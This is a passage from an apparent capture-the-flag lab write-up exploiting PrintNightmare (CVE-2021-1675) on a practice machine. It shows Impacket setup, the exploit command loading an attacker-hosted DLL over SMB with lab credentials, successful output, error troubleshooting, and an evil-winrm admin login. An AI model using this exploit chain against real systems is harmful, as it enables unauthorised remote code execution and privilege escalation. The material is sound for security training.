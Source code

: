 

To avoid messing up my system install, I'll create a virtual
environment, activate it, and install Impacket in there:



    oxdf@parrot$ python3 -m venv venv
    oxdf@parrot$ source venv/bin/activate
    (venv) oxdf@parrot$ cd impacket/
    (venv) oxdf@parrot$ python3 setup.py install
    running install
    running bdist_egg
    running egg_info 
    ...[snip]...



#### Run Exploit

With all the pieces assembled, I can run the exploit. I'll give it the
creds for the hazard user which work for an RPC connection, as well as
the path to the DLL on the SMB share:



    (venv) oxdf@parrot$ python3 CVE-2021-1675.py 'HEIST/hazard:stealth1agent@10.10.10.149' '\\10.10.14.200\share\AddUserDll.dll'
    [*] Connecting to ncacn_np:10.10.10.149[\PIPE\spoolss]
    [+] Bind OK
    [+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
    [*] Executing \\10.10.14.200\share\AddUserDll.dll
    [*] Try 1...
    [*] Stage0: 0
    [*] Stage2: 0
    [+] Exploit Completed



It worked!

If it throws an error, he's what some troubleshooting showed me:

  Error                                                                                                                                       Reason
  ------------------------------------------------------------------------------------------------------------------------------------------- ------------------------------------------
  `impacket.dcerpc.v5.rpcrt.DCERPCException: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied`                                           permissions on the file in the SMB share
  `impacket.dcerpc.v5.rprn.DCERPCSessionError: RPRN SessionError: code: 0x525 - ERROR_NO_SUCH_USER - The specified account does not exist.`   user in `smbd.conf` doesn't exist

I can now log in as 0xdf with admin privs:



    oxdf@parrot$ evil-winrm -i 10.10.10.149 -u 0xdf -p 0xdf0xdf

    Evil-WinRM shell v2.4
